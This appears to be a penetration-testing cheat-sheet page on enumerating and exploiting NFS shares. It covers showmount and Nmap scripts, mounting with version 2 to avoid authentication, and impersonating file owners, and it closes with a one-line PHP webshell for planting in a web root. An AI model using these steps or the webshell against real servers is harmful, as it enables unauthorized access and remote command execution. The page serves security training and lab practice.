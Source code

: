 ```yaml
---
description: >-
  Network File System (NFS) is a file system protocol that allows a user on a
  client system to access files stored on a file server.
---
```


# 📂 2049/NFS

## Enumeration

* Open NFS’s work by utilizing read/write access permissions.
  * Read Access: Possible confidential file is available
  * Write Access: Possible file upload to execute through web service

### Useful Nmap Scripts <a href="#useful-nmap-scripts" id="useful-nmap-scripts"></a>

```
nfs-ls #List NFS exports and check permissions
nfs-showmount #Like showmount -e
nfs-statfs #Disk statistics and info from NFS share
```

## Mounting

To know **which folder** has the server **available** to mount you an ask it using:

```
showmount -e <IP>
```

Then mount it using:

```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
```

You should specify to **use version 2** because it doesn't have **any** **authentication** or **authorization**.

**Example:**

**Enumerate share:**

```
showmount -e 10.10.10.10
Export list for 10.10.10.10:
/site_backups (everyone)
```

Create directory for mount point:

```
sudo mkdir /mnt/HTB_Site_Backups
```

Mount the share to newly created mount point:

```
sudo mount -t nfs 10.10.10.10:/site_backups /mnt/HTB_Site_Backups/ -o nolock
```

## Exploitation Tips

* When you mount a directory, be sure to check the directory for it's permissions
* The mounted directory does not check the user, it simply checks it's permissions
* This means that if you create a user with the same permissions set, you will be able to read, write, or execute those files found within those directories
* Perhaps there's a web server running on that server and a mounted directory is /var/www/html, well if you can write to it, place a PHP webshell in there, and gain access to the server!

#### PHP Webshell

* An extremely simple PHP Webshell
* To use, simple name the file shell.php and place it in /var/www/html
* Lastly, navigate to hackthebox.htb/shell.php

```
<?php system($_GET['cmd']);?>
```

## Tools:

Mount: For mounting share availability

Showmount: For finding shares available

## References

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting" %}

